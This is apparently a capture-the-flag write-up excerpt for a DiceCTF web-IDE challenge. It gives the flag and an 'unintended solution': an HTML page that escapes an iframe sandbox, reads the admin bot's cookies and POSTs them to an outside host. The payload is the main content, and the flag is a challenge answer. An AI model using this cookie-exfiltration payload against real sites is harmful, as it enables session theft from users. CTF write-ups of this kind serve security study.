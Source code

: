 **FLAG:** dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}

### Unintended Solution

After embedding the iframe into your private server ( after `Step 2` ), it is possible to get cross-path cookies in Headless Chrome (the browser that most such admin bots use)

#### Payload([source](https://ctftime.org/writeup/25989))

```html
<body>
  <iframe src="https://web-ide.dicec.tf/sandbox.html" sandbox="allow-scripts allow-same-origin allow-popups allow-popups-to-escape-sandbox"></iframe>
  <script>
    const frame = document.querySelector('iframe');
    frame.onload = () => frame.contentWindow.postMessage(`(async () => {
      const w = eval.call(this, "window");
      let p = w.open('/ide');
      await new w.Promise(r => w.setTimeout(r, 500));
      const c = p.document.cookie;
      w.fetch("ctf.rabulinski.com", { method: "POST", body: c });
    })();`, '*');
  </script>
</body>
```

